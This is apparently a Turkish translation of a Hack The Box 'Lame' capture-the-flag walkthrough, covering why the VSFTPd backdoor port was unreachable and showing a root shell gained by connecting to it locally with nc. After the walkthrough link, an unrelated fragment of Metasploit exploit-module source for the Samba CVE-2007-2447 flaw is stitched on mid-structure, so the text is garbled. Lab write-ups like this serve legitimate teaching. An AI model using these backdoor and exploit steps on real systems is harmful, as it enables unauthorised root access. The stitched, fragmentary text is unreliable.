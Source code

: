 ```
Sonra da bayrakları al:

![Pasted image 20250205205904.png](/img/user/resimler/Pasted%20image%2020250205205904.png)


## Beyond Root - VSFTPd

Peki VSFTPd'ye ne oldu? Kutuyu nmap ile ilk taradığımda, dört açık TCP portu gösterdi: FTP (21), SSH (22), Samba (139, 445) ve 3632'de bir şey. Ancak bir shell ile çok daha fazla listener görebildim:

![Pasted image 20250205210002.png](/img/user/resimler/Pasted%20image%2020250205210002.png)

Firewall çok fazla engelleme yapıyor olmalı.

Bu, backdoor tetiklenirse ve 6200'de dinlemeye başlarsa, muhtemelen hostumdan erişilemeyeceği anlamına gelir. Test edeceğim. Gösterim amacıyla, kutudaki kullanıcıya geçeceğim, makis:

```
root@lame:/etc# su - makis -c bash
makis@lame:~$ nc 127.0.0.1 6200
(UNKNOWN) [127.0.0.1] 6200 (?) : Connection refused
```

Backdoor'a bağlanamıyorum. Backdoor'u tekrar tetiklediğimde, şimdi bağlanabiliyorum ve root olarak bir shell alabiliyorum:

```
makis@lame:~$ nc 127.0.0.1 6200
‍id
uid=0(root) gid=0(root)
```

Portun artık dinlediğini görebiliyorum:

```
root@lame:/etc# netstat -tnlp | grep 6200
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      5580/vsftpd 
```

[Lame distcc + Privesc »](https://0xdf.gitlab.io/2020/04/08/htb-lame-more.html)

,
                        'References'     =>
                                [
                                        [ 'CVE', '2007-2447' ],
                                        [ 'OSVDB', '34700' ],
                                        [ 'BID', '23972' ],
                                        [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                                        [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                                ],
                        'Platform'       => ['unix'],
                        'Arch'           => ARCH_CMD,
                        'Privileged'     => true, # root or nobody user
                        'Payload'        =>
                                {
                                        'Space'    => 1024,
                                        'DisableNops' => true,
                                        'Compat'      =>
                                                {
                                                        'PayloadType' => 'cmd',
                                                        # *_perl and *_ruby work if they are installed
```